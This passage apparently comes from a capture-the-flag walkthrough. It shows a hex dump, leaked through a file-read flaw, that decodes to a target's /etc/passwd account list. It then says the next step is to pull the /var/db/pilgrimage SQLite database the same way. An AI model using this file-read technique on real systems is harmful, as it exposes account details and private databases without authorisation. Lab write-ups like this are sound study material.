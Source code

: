 ```
75703a783a33343a33343a6261636b75703a2f7661722f6261636b7570733a2f7573722f
7362696e2f6e6f6c6f67696e0a6c6973743a783a33383a33383a4d61696c696e67204c69
7374204d616e616765723a2f7661722f6c6973743a2f7573722f7362696e2f6e6f6c6f67
696e0a6972633a783a33393a33393a697263643a2f72756e2f697263643a2f7573722f73
62696e2f6e6f6c6f67696e0a676e6174733a783a34313a34313a476e617473204275672d
5265706f7274696e672053797374656d202861646d696e293a2f7661722f6c69622f676e
6174733a2f7573722f7362696e2f6e6f6c6f67696e0a6e6f626f64793a783a3635353334
3a36353533343a6e6f626f64793a2f6e6f6e6578697374656e743a2f7573722f7362696e
2f6e6f6c6f67696e0a5f6170743a783a3130303a36353533343a3a2f6e6f6e6578697374
656e743a2f7573722f7362696e2f6e6f6c6f67696e0a73797374656d642d6e6574776f72
6b3a783a3130313a3130323a73797374656d64204e6574776f726b204d616e6167656d65
6e742c2c2c3a2f72756e2f73797374656d643a2f7573722f7362696e2f6e6f6c6f67696e
0a73797374656d642d7265736f6c76653a783a3130323a3130333a73797374656d642052
65736f6c7665722c2c2c3a2f72756e2f73797374656d643a2f7573722f7362696e2f6e6f
6c6f67696e0a6d6573736167656275733a783a3130333a3130393a3a2f6e6f6e65786973
74656e743a2f7573722f7362696e2f6e6f6c6f67696e0a73797374656d642d74696d6573
796e633a783a3130343a3131303a73797374656d642054696d652053796e6368726f6e69
7a6174696f6e2c2c2c3a2f72756e2f73797374656d643a2f7573722f7362696e2f6e6f6c
6f67696e0a656d696c793a783a313030303a313030303a656d696c792c2c2c3a2f686f6d
652f656d696c793a2f62696e2f626173680a73797374656d642d636f726564756d703a78
3a3939393a3939393a73797374656d6420436f72652044756d7065723a2f3a2f7573722f
7362696e2f6e6f6c6f67696e0a737368643a783a3130353a36353533343a3a2f72756e2f
737368643a2f7573722f7362696e2f6e6f6c6f67696e0a5f6c617572656c3a783a393938
3a3939383a3a2f7661722f6c6f672f6c617572656c3a2f62696e2f66616c73650a

    signature: d02a8da86fec6ef80c209c8437c76cf8fbecb6528cd7ba95ef93eecc52a171c7
```

If we convert this to text, we would get the `/etc/passwd` file, meaning it worked:

<figure><img src="../../.gitbook/assets/image (107) (2).png" alt=""><figcaption></figcaption></figure>

Now we can replace the file with `/var/db/pilgrimage`. This would give us a humongous hex output, and after removing the irrelevant parts, we can convert it using `xxd` to get a SQLite file.&#x20;
